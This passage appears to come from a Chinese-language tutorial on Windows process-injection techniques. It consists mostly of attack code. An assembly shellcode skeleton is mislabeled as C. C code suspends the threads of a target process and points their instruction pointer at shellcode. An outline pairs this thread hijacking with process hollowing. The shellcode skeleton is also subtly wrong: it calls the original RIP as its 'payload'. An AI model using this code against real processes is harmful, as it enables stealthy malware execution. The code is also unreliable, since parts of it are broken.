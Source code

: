 ```c
// Shellcode 框架
push rax                    // 保存所有寄存器
push rbx
// ... 保存其他寄存器

mov rax, [原始_RIP]        // 执行 payload
call rax

pop rbx                     // 恢复所有寄存器
pop rax
// ... 恢复其他寄存器

jmp [原始_RIP]             // 跳转回原始执行点
```

### 2. 劫持运行中进程的线程

```c
// 1. 枚举目标进程的线程
HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
THREADENTRY32 te32 = {0};
te32.dwSize = sizeof(te32);

Thread32First(hSnapshot, &te32);
do {
    if (te32.th32OwnerProcessID == targetPid) {
        // 2. 挂起线程
        HANDLE hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, te32.th32ThreadID);
        SuspendThread(hThread);

        // 3. 获取上下文
        CONTEXT ctx = {0};
        ctx.ContextFlags = CONTEXT_FULL;
        GetThreadContext(hThread, &ctx);

        // 4. 修改 RIP/EIP
        ctx.Rip = (DWORD64)shellcode_address;

        // 5. 设置上下文并恢复
        SetThreadContext(hThread, &ctx);
        ResumeThread(hThread);
    }
} while (Thread32Next(hSnapshot, &te32));
```

### 3. 组合其他技术

**Thread Hijacking + Process Hollowing:**
```c
1. 创建挂起的合法进程
2. 使用 Process Hollowing 替换镜像
3. 使用 Thread Hijacking 劫持主线程
4. 让主线程执行 Hollowed 代码
```
